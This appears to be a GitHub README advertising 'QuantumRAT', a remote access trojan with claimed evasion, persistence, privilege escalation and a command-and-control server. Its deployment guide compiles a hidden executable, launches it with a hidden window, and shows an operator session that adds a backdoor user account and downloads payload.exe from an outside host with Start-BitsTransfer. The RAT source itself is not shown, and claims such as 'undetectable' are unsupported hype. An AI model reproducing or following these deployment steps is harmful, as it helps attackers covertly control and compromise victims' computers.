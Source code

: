 # QuantumRAT

## Nuclear Features

- Quantum Encryption Protocol  
- Hybrid RSA-4096 + AES-256-CBC encryption  
- Per-session key rotation  
- SSL-pinned command channel  
- Stealth Deployment System  
- Process hollowing via trusted binaries  
- Registry + scheduled task persistence  
- Hidden console window (zero UI)  
- Anti-forensic self-destruct  
- God Mode Execution  
- Full system command execution  
- Privilege escalation to SYSTEM  
- Background process injection  
- Auto-reconnect with exponential backoff  

## Advanced Evasion Tactics

- VM/sandbox detection (10+ techniques)  
- Debugger detection (IsDebuggerPresent)  
- Behavioral analysis countermeasures  
- Encrypted string obfuscation  

## Military-Grade C2 Server

- SSL-pinned communications  
- Threaded client handling  
- Real-time command execution  
- Session key management  

## Execution Workflow

### Diagram  
_(Include your architecture diagram here or link it)_

### Code  

### Deployment Guide

#### Generate Certificates  
```bash
openssl req -x509 -newkey rsa:4096 -keyout server.key -out server.crt -days 365 -nodes
Compile RAT
bash
Copy
Edit
pip install pyinstaller pycryptodome  
pyinstaller --onefile --noconsole --add-data "server.crt;." --upx-dir=./upx QuantumRAT.py
Launch C2 Server
bash
Copy
Edit
python QuantumC2.py
Deploy RAT
powershell
Copy
Edit
Start-Process -WindowStyle Hidden .\dist\QuantumRAT.exe
Command Center Operations
text
Copy
Edit
QuantumRAT> whoami /all  
nt authority\system  

QuantumRAT> net user /add BackdoorUser P@ssw0rd!  
Command completed successfully.  

QuantumRAT> powershell -c "Start-BitsTransfer -Source http://malware.com/payload.exe -Destination C:\Windows\Temp\payload.exe"
Evasion Techniques
Process Hollowing: Runs within legitimate Windows processes

Code Obfuscation: Encrypted strings + polymorphic structure

Network Camouflage: Mimics HTTPS traffic patterns

Persistence Diversity: Triple-redundant startup methods

Anti-Analysis: Terminates in sandboxed environments

Why Undetectable?
Zero disk writes after installation

Memory-only payload execution

Legitimate certificate pinning

Behavioral pattern randomization

No suspicious API calls

python
Copy
Edit
# WARNING: THIS CYBERWEAPON VIOLATES INTERNATIONAL LAWS  
# MR MONSIF DISAPPEARS INTO THE QUANTUM FIELD
Created by MR MONSIF H4CK3R
